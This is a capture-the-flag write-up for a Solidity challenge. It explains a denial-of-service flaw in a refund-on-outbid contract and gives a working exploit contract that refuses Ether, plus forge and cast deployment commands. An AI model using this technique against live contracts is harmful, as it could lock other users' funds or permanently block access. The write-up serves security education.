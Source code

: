 Becoming a VVVIP member always has the downside, like how easily you can be replaced by others, but what if we can make ourselves forever a VVVIP member? That's the task that we are going to tackle in this challenge; the *isSolved()* condition, as seen below, is quite unique. &nbsp;  
&nbsp;  

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "./VVVIP.sol";

contract Setup{
    VVVIP public immutable vvvip;
    bool public solved;

    constructor() payable {
        require(msg.value == 15 ether);
        vvvip = new VVVIP();
        vvvip.becomeVVVVIP{value: 3 ether}();
    }

    function TryIfSolve() public payable {
        try vvvip.becomeVVVVIP{value: 10 ether}() {
            (address amIVVVVIP, ) = vvvip.getVVVVIP();
            require(amIVVVVIP != address(this), "You are still VVVIP member!");
            solved = false;
        } catch {
            solved = true;
        }
    }

    function isSolved() public view returns(bool){
        return solved;
    }

    receive() external payable{}

}
```
&nbsp;  
Initially, the Setup Contract is the current VVVIP Member with 3 Ether worth, but there is a function *TryIfSolve()*; this function will run in order to change the *solved()* value. If the Setup succeeds to reclaim his Membership, then we are going to receive our money back and we lost our VVVIP Member status, but if we check our balance using this command &nbsp;  
&nbsp;  
```bash
cast balance -r $RPC_URL $WALLET_ADDR
```
&nbsp;  
Turns out we only have 7 Ether, so how come we can hold our status as the VVVIP Member if the setup is going to reclaim it with 7 Ether? Let's see the VVVIP contract first. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

contract VVVIP{
    address private currentVVVIP;
    uint256 private currentBalance;

    function becomeVVVVIP() external payable{
        require(msg.value > currentBalance, "You don't have enough money to become VVVIP!");
        (bool refund, ) = currentVVVIP.call{value: currentBalance}(""); 
        require(refund, "The fund is not given back!");
        if(currentVVVIP == address(0)){
            currentVVVIP = msg.sender;
            currentBalance = msg.value;
        }
        currentVVVIP = msg.sender;
        currentBalance = msg.value;
    }

    function getVVVVIP() public view returns(address, uint256){
        return (currentVVVIP, currentBalance);
    }

}
```
&nbsp;  
There we can see the logic, so the first person to interact with it will automatically become the VVVIP Member, which is the Setup with 3 Ether worth. When someone tries to challenge the VVVIP Member, if the Ether sent to challenge is less than the current VVVIP Member worth, it will revert; otherwise,  it will refund the worth of the previous VVVIP Member and set the new VVVIP Member alongside the Ether worth. &nbsp;  
&nbsp;  
The logic there seems flawless, but what if I told you we don't have to be the ones to interact with it? We can just create an exploit contract that has no way of receiving Ether. Why would this work? Since the way of refund is required to be successful, if we just make it fail every time, our VVVIP Member status won't be revoked, so here is the exploit contract. &nbsp;  
&nbsp;  

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "./VVVIP.sol";
import "./Setup.sol";

contract Exploit{
    Setup public setup;
    VVVIP public vvvip;

    constructor(address payable _setup) payable{
        require(msg.value == 4 ether);
        setup = Setup(_setup);
        vvvip = VVVIP(setup.vvvip());
    }

    function exploit() public {
        vvvip.becomeVVVVIP{value: 4 ether }();
    }

}
```
&nbsp;  
We just need to deploy it and give it 4 Ether to work. &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit Contract
forge create src/vvvip-member/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR --value 4ether

// Interacting with the Exploit
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"
```
&nbsp;  
Running the command above and making the exploit contract become the forever VVVIP member will solve the challenge!